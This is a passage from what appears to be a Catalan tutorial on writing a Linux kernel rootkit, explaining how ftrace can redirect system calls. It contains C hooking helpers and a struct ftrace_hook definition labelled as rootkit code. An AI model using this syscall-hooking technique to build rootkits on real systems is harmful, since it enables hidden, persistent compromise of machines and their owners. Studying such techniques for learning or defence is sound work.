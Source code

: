             err = ftrace_set_filter_ip(&hook->ops, hook->address, 1, 0);
            if(err)
            {
                printk(KERN_DEBUG "rootkit: ftrace_set_filter_ip() failed: %d\n", err);
            }
        }

        /* To make it easier to hook multiple functions in one module, this provides
        * a simple loop over an array of ftrace_hook struct
        * */
        int fh_install_hooks(struct ftrace_hook *hooks, size_t count)
        {
            int err;
            size_t i;

            for (i = 0 ; i < count ; i++)
            {
                err = fh_install_hook(&hooks[i]);
                if(err)
                    goto error;
            }
            return 0;

        error:
            while (i != 0)
            {
                fh_remove_hook(&hooks[--i]);
            }
            return err;
        }

        void fh_remove_hooks(struct ftrace_hook *hooks, size_t count)
        {
            size_t i;

            for (i = 0 ; i < count ; i++)
                fh_remove_hook(&hooks[i]);
        }
    ```

    Aquesta implementació es basa en la implementació de **ftrace**. Ftrace és una eina de depuració que permet monitoritzar les crides a sistema. Per a més informació sobre ftrace podeu consultar [**aquest enllaç**](https://www.kernel.org/doc/html/latest/trace/ftrace.html). Registra la informació relacionada amb les crides a sistema i ens permet definir callbacks, entre altres funcions. Ens permet intervenir quan el registre '''rip'''contingui una adreça de memòria. Si establim que aquesta adreça és on comença la funcionalitat d'una crida a sistema, podem modificar perquè s'executi una altra funcionalitat.

    ```c
    struct ftrace_hook {
        const char *name;
        void *function;
        void *original;
        unsigned long address;
        struct ftrace_ops ops;
    };
    ```
